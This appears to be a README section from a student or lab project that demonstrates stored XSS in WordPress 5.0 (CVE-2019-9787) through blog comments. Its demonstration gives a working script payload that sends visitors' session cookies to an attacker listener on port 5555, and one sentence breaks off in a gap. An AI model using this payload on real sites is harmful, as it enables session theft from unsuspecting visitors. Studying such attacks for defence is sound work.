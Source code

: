 
## Vulnerability #2-1: Cross Site Scripting (XSS) - simple one
### Brief Description of vulnerability
**CVE-2019-9787**\
Publish Date : 2019-03-14\
Vulnerable Wordpress Versions : Before 5.1.1

WordPress does not properly filter comment content, leading to Remote Code Execution by unauthenticated users in a default configuration. This occurs because CSRF protection is mishandled, and because Search Engine Optimization of A elements is performed incorrectly, leading to XSS. The XSS results in administrative access, which allows arbitrary changes to .php files. This is related to wp-admin/includes/ajax-actions.php and wp-includes/comment.php. [(reference)](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2019-9787)

### Significance
This vulnerability is more dangerous compared to the previous attack.
If a person, who downloaded the malicious template or theme distrubuted from the previous attack, has some knowledge of 




, the previous attack would be very limited and not so successful because he/she can see the XSS payload and remove it from the file. However, a XSS payload in comments is not visible to viewers. They do not have access to remove other's comments. They do not know what comments are there before they click the post. Therefore, a XSS attack placing the malicious code in comments is more dangerous.

### Design of Attack
Using WordPress 5.0

**Steal Session Cookie** by injecting XSS payload in comments.\
As an attacker, we place a JavaScript code in the comment of a post in a WordPress blog. Any individual, with and without an account, visits and views the post which the attacker left a comment consists of a malicious code becomes a victim. We, attacker, can steal the victim's session cookie information when there is a viewer.

### Demonstration of Attack
1. Embeded a JavaScript code (used in the earlier attack above) in the comment of a post
- `<script>new Image().src="http://10.0.2.15:5555?output="+document.cookie;</script>Love your post!`
![before comment](/V2%20wordpress%205.0%20version/steal%20cookie/before%20comment.PNG?raw=true "before comment")
2. Comment was added
- The malicious code is hidden.
![after comment](/V2%20wordpress%205.0%20version/steal%20cookie/after%20comment.PNG?raw=true "after comment")
3. A guest (without login) visits the website and views the post
- the malicious code is executed to get the guest's session cookie information.
![visit post as guest](/V2%20wordpress%205.0%20version/steal%20cookie/visit%20post%20as%20guest.PNG?raw=true "visit post as guest")
4. Listening the port 5555, was able to steal session cookie information
- Any visitor viewing the post including comments are victims.
![result](/V2%20wordpress%205.0%20version/steal%20cookie/result.PNG?raw=true "result")

